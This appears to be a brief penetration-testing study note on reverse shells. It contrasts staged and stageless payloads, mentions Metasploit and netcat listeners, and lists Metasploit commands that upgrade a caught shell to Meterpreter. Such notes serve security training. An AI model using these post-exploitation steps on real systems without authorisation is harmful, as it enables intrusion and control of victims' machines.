 # Shells

![](<../../../../.gitbook/assets/image (25) (1) (1) (1).png>)

## Staged Payloads

A payload that is not enough to create a shell itself

It is a downloader part that needs to download and execute the rest of the payload

It is much smaller

![](<../../../../.gitbook/assets/image (29) (1) (1) (1) (1) (1).png>)

You're required to use a Metasploit listener in order to receive the shell connection

The listerner payload has to be exactly the same as the msfvenom payload

![](<../../../../.gitbook/assets/image (35) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (26) (1) (1) (1).png>)

## Stageless Payloads

A standalone program that doesn't need anything additional, just the netcat listener on your computer

Its size is much bigger

![](<../../../../.gitbook/assets/image (37) (1) (1) (1) (1).png>)

## Using Metasploit to Catch a Shell

![](<../../../../.gitbook/assets/image (34) (1) (1) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (36) (1) (1) (1) (1) (1) (1).png>)

### Upgrading to Meterpreter Shell

```
Ctrl+Z or background
use post/multi/manage/shell_to_meterpreter
set lhost [HOST]
set lport [PORT]
set session [SESSION ID]
run
```
